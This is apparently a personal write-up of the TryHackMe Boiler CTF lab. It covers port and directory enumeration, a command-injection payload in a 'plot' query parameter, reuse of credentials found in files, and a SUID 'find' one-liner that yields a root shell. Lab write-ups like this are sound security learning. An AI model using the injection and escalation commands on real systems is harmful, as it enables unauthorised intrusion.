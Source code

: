 # Hack Log 2 - TryHackMe [Boiler CTF](https://tryhackme.com/room/boilerctf2)

📆:**Date:** 2025-05-23  
🔍**Objective:** Read the contents of user.txt and root.txt files  
🎯**Target**: TryHackme Boiler CTF (Lab CTF)  

---

## 🛠️ Actions Taken  

- **Port & Service Enumeration**
  ```
  nmap -sV -p<port>-<port> <IP>
  ```
  → Found  services on higher ports.

- **Directory & Endpoint Discovery**
  ```
  gobuster dir -u http://<IP> -w <wordlist> 
  ```
  → Found a interesting directory "/joomla"
  → Did further enumeration on "/joomla" which yielded following results
    - /_files
    - /_database
    - /_test
    - /_archive
  
  → Enumerated for file extensions in "/_test" and found following file
    - log.txt
  
  → Found a query parameter with possible command injection
     ```
     http://<IP>/joomla/_test/index.php?plot=
     ```

- **Command Injection**
   - Successful
     ```
     http://<IP>/joomla/_test/index.php?plot=;ls
     ```
     → Directory listing appeared in the drop down menu interface in the webpage, and revealed the previously discovered "log.txt" file.
     
   - Unsuccessful
     ```
     /_test/index.php?plot=`ls`
     /_test/index.php?plot='ls'
     ```

- **Post-Exploitation**  
  → Found ssh credentials in the "log.txt" file.  
  → Logged in via ssh using the discovered credentials.  
  → Found that the currently logged in user can't perform sudo.  
  → Found a script named as "backup.sh".  
  → Script contained different credentials.  
  → Succesfully switched user by using the credentials found in the script.  
  → Found a file ".secret" in the home directory of the user.  
  → File contained the flag 1.  

- **Privilege Escalation**  
  → Found that current user can't user can't run commands as sudo.  
  → Started searching for any binary with suid bit set.  
    ```
    find / -type f -perm /04000 2>/dev/null
    ```
  → Found "find" binary with suid bit set.  
  → Looked upon [GTFO Bins](https://gtfobins.github.io/) for entry about "find".  
  → Found entry regarding "find" and how to obtain root shell.  
  → Executed
    ```
    find . -exec /bin/sh -p \; -quit
    ```
  → Successfully obtained root shell.  
  → Read the contents of root.txt file in "/root" directory.  


## 🔍 Key Findings  

  - Services exposed on higher ports.
  - Vulnerable `/_test/index.php?plot=` endpoint allowing command injection.
  - `log.txt` file containing credentials.
  - "find" binary with suid bit set.

## 📚 What I Learned  

  - Keeping patience while enumeration.
  - Carefully observing url for any query parameters which might allow command injection.
  - Looking for binaries with suid bit set and their corresponding entries in GTFO Bins.
  
  



